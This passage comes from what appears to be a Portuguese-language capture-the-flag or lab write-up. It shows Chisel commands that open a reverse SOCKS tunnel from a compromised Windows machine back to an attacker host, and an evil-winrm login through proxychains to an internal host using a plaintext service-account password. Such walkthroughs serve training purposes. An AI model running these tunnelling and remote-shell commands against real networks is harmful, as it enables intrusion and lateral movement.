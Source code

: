 Neste caso, optaremos pelo uso do **Chisel**, uma ferramenta leve e eficiente para tunelamento reverso. Contudo, como a porta SSH da máquina comprometida está exposta, também seria possível criar um usuário e estabelecer um túnel via SSH — o que pode ser considerado como alternativa.

**Máquina Atacante**
`chisel server -p 9001 --reverse`
- `-p`: Porta escolhida para a máquina da vítima conectar
- `--reverse`: Fará uma conexão reversa
![](img/962069e1d6e2f617dd1ca31f2136203a.png)

**Máquina Vítima/Comprometida**
`.\chisel.exe client 12.100.1.8:9001 R:socks`
- `R:socks`: Indica que deseja criar um túnel reverso
	- `R:`: Reverse Tunneling
	- `socks`: Túnel será um servidor SOCKS5

Para validar que o túnel está funcionando corretamente e que conseguimos **acessar máquinas internas da rede**, utilizaremos o **Evil-WinRM**.
`proxychains -q evil-winrm -i 10.200.89.32 -u svcScanning -p 'Password1!'`
![](img/2269cb2cf33bd70d5046aeadecbb402c.png)


# Quinta Flag